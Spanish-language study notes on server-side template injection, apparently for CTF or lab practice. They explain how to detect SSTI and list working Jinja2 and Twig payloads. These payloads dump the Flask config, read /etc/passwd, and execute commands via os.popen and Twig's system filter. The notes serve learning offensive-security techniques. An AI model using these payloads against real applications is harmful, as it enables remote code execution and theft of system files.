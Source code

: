 
Server-Side template injection -> Cunado un template engine como jinja acepta input antes de que la función de renderizado se active, permitiendo que el atacante inyecte codigo y que este sea renderizado
## Identifying SSTI

1. Meterle carácteres usados comunmente en los template para ver si salta error : ```${{<%[%'"}}%\.``` -> carácteres mas comunes

2. Identificar el Template Engine

![[Imágenes/Pasted image 20250701235617.png]]


3. Salir de casa

## Explotation - Jinja2

Usado en python web frameworks como `Flask` o `Django` - nos centraremos en Flask

1. Payload para ver la configuración de la aplicación web
```jinja2
{{ config.items() }}
```
2. Payload que dumpea todas las finciones built-in 
```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```
3. Si la funciones open está activa podemos hacer LFI de la siguiente forma
```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
4. RCE,  necesitamos la librería 'os' , si no está instalada tendremos que hacerle import desde el payload 
```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

## Explotation - Twig

Basado en PHP

1. Payload para que nos de info sobre el template
```twig
{{ _self }}
```
2. LFI (si usa Symfony)
```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
3. RCE
```twig
{{['id']|filter('system')}}
```

si quieres hacer cat /flag.txt con burp el espacio ponlo como `\x20`
